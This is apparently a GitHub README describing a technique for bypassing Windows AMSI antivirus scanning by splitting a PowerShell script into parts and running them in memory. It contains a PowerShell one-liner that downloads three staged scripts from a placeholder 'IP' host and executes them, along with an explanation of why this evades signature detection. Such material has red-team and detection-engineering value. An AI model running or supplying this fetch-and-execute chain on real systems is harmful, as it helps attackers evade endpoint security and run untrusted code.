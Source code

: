 ### AMSI Bypass Using Script Splitting and In-Memory Execution

This repository demonstrates a technique to bypass **AMSI (Antimalware Scan Interface)** by splitting a PowerShell script into multiple files and loading them into memory. This approach helps evade signature-based detection used by antivirus (AV) solutions.

#### Steps Performed:
1. **Code Development**:
   - Created a PowerShell script designed to bypass AMSI.
   - Split the script into three separate files: `hello.ps1`, `hello2.ps1`, and `hello3.ps1`.

2. **Script Execution**:
   - Used the `IEX` (Invoke-Expression) command to download and execute each script in memory:
     ```powershell
     IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_1.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_3.ps1"); MagicBypass;
     ```
   - This method avoids writing malicious code to disk, making it harder for AV tools to detect.

3. **In-Memory Execution**:
   - By loading the scripts directly into memory, the bypass technique remains stealthy and effective against traditional file-based detection mechanisms.

#### Why This Works:
- **Script Splitting**: Dividing the code into smaller files helps evade signature-based detection, as the individual files may not match known malicious patterns.
- **In-Memory Execution**: Executing code in memory avoids leaving traces on disk, reducing the chances of detection by AV solutions.
- **Obfuscation**: The use of `IEX` and remote loading adds an additional layer of obfuscation.

**Disclaimer**: This technique is for educational purposes only and should be used responsibly in authorized environments.
